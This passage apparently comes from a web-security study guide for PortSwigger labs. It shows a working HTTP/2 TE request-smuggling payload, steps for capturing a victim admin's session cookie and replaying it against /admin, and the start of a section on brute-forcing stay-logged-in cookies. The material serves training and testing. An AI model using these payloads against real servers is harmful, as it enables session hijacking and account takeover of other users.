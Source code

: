 #### HTTP/2 TE desync v10a h2path

> Target is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length. Steal the session cookie, of the admin visiting the target. The Burp extension, **HTTP Request Smuggler** will _**identify**_ the vulnerability as HTTP/2 TE desync v10a (H2.TE) vulnerability.

> Note: Switch to **HTTP/2** in the inspector request attributes and Enable the **Allow HTTP/2 ALPN override** option in repeat menu.

```html
POST /x HTTP/2
Host: TARGET.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: TARGET.web-security-academy.net\r\n
\r\n
```

> Note: Paths in both POST and GET requests points to non-existent endpoints. This help to _**identify**_ when not getting a 404 response, the response is from victim user captured request. **Remember** to terminate the smuggled request properly by including the sequence `\r\n\r` after the Host header.

> Copy stolen session cookie value into new **http/2** GET request to the admin panel.

```
GET /admin HTTP/2
Host: TARGET.web-security-academy.net
Cookie: session=VictimAdminSessionCookieValue
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
```

[PortSwigger Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)

***

### Brute Force

[Stay-Logged-in](broken-reference)\
[Stay-logged-in Offline Crack](broken-reference)\
[Brute Force Protected Login](broken-reference)\
[Subtly Invalid Login](broken-reference)

#### Stay-Logged-in

> Login option with a stay-logged-in check-box result in Cookie value containing the password of the user logged in and is vulnerable to brute-forcing.

